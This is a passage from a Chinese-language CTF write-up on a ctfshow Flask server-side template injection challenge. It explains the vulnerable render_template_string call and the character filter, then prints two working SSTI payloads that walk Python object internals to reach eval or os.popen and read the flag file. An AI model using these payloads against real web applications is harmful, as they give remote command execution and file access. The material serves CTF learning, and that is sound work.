 
观察一下，`render_template_string('hello %s' % name)` 中模板内容可以由参数传入，所以构成了`python flask SSTI模板注入`

我们观察一下，发现想要注入，

参数必需包含：`ge`，如果不包含就不能有`f`

所以我们就可以去构造我们的payload



##### 本人解法

```python
{{''.__class__.__base__.__subclasses__().__getitem__['catch_warnings'].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cd ..;cat flag").read()')}}
```

首先我们先通过 `''.__class__`获取到：字符串的类型

然后 `__base__`获取到字符串的基类(Object，python中对象基类都是Object)

`__subclasses__()`函数获取到Object类的所有子类，返回一个列表

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304032349225.png" alt="image-20230403234955145" style="zoom: 33%;" />

> `catch_warnings`是warnings下的一个模块，当有报错提示时说明导入了此类

由于题目需要我们包含`ge`，所以我们可以使用 `__getitem__[]`特殊方法

获取给定键对应的值

然后我们再使用`__init__` 初始化`catch_warnings`类，

再使用`__globals__`，获取全局模块可读的属性、值

![image-20230404000356404](https://raw.githubusercontent.com/leekosss/photoBed/master/202304040003579.png)

然后我们使用`__builtins__`，这个里面可以利用到 eval

![image-20230404000751744](https://raw.githubusercontent.com/leekosss/photoBed/master/202304040007847.png)

然后我们使用eval，popen进行命令执行：

```python
['eval']('__import__("os").popen("cd ..;cat flag").read()')
```

得到flag



##### 官方解法：

```python
/hello/{{ "".__class__.__base__ .__subclasses__()[132].__init__.__globals__['popen'](request.args.get("ctfshow")).read()}}?ctfshow=cat /flag 
```

使用 `__subclasses__()[132]`获得第132位的类，即：`<class 'os._wrap_close'>`，os

然后 `__init__.__globals__['popen']` 初始化后调用`popen`，
